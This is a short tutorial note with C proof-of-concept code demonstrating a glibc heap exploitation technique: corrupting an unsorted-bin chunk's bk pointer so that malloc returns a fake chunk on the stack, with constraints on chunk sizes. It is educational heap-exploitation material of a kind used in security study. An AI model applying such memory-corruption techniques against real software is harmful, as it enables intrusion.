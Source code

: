 # Unsorted_bin into stack
> LongChampion, 19/03/2020

In this attack, we modify the `bk` pointer of a chunk in unsorted_bin to make `malloc` return a fake chunk.
```c
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk Fake, NextFake;

    void *victim = malloc(0x100 - 8);
    void *pivot = malloc(0x100 - 8);

    free(victim);
    struct Chunk *header = (struct Chunk *) (victim - 0x10);
    header->bk = &Fake;
    Fake.size = 0x200;
    Fake.bk = &NextFake;

    void *STACK = malloc(0x200 - 8);
}
```
First, we allocate two chunks and free the first chunk to push it into unsorted_bin. Then we set the `bk` pointer of `victim` point to our fake chunk. After that, we set the size of the fake chunk (it must differ from size of `victim` chunk) and set `Fake.bk` point to somewhere. Finally, call `malloc` with EXACT resquest size to get the fake chunk.

## Note
- The `pivot` chunk is used to prevent `free` from consolidating `victim` with top_chunk.
- You can change size of `victim` chunk and size of fake chunk to any value. But the following condition must be satify:
    - Size of fake chunk is differ from size of size of `victim` chunk.
    - Size of fake chunk fall into fastbin range or smallbin range (can't be largebin range)
- Request size of last `malloc` call must be **calcutaled** to make `malloc` return a fake chunk (read `calc_tcache_idx.md` if you don't know how to calculate this value)
- 8 bytes at address `Fake.bk + 0x10` will be overwrite, so make sure that you set `Fake.bk` to somewhere suitable (Don't try to overwrite the canary please)
- As we expect, `STACK` point to `Fake.fd`, not `Fake`.
